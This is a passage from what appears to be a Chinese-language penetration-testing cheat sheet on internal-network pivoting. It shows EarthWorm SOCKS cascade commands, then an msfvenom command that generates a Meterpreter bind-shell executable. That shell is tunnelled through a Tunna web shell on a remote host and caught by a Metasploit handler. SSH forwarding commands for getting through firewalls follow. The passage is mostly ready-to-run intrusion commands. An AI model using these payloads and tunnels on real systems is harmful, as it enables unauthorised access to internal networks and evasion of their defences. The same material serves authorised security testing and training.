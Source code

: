  再提供一个“三级级联”的本地SOCKS测试用例以供参考
 
    $ ./ew -s rcsocks -l 1080 -e 8888
    $ ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
    $ ./ew -s lcx_listen -l 9999 -e 7777
    $ ./ew -s rssocks -d 127.0.0.1 -e 7777
数据流向: SOCKS v5 -> 1080 -> 8888 -> 9999 -> 7777 -> rssocks

## 0x04 Shell反弹不出[DMZ]

1、先生成一个bind_shell

    msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=12345 -f exe -o ./shell.exe
 
 
2、本地利用tunna工具进行端口转发

    python proxy.py -u http://xxxx.com/conn.jsp  -l 3333 -r 12345 v
 
3、监听

    use exploit/multi/handler
    set payload windows/x64/meterpreter/bind_tcp
    set LPORT 3333


## 0x05 SSH隧道

三种不同类型的ssh隧道

http://hetaoo.iteye.com/blog/2299123

通过VPS SSH隧道使用本地msf
https://evi1cg.me/archives/Port_Forward_using_VPS_SSH_Tunnel.html

本地访问127.0.0.1:port1就是host:port2(用的更多)

    ssh -CfNg -L port1:127.0.0.1:port2 user@host    #本地转发
 
访问host:port2就是访问127.0.0.1:port1

    ssh -CfNg -R port2:127.0.0.1:port1 user@host    #远程转发
 
可以将dmz_host的hostport端口通过remote_ip转发到本地的port端口
    
    ssh -qTfnN -L port:dmz_host:hostport -l user remote_ip   #正向隧道，监听本地port
 
可以将dmz_host的hostport端口转发到remote_ip的port端口
    
    ssh -qTfnN -R port:dmz_host:hostport -l user remote_ip  
 
socket代理
    
    ssh -qTfnN -D port remotehost
    
反向隧道，用于内网穿透防火墙限制之类

    -q      #安静模式
    -T      #不占用shell
    -f      #后台运行，推荐加-n参数
    -N      #不执行远程命令
        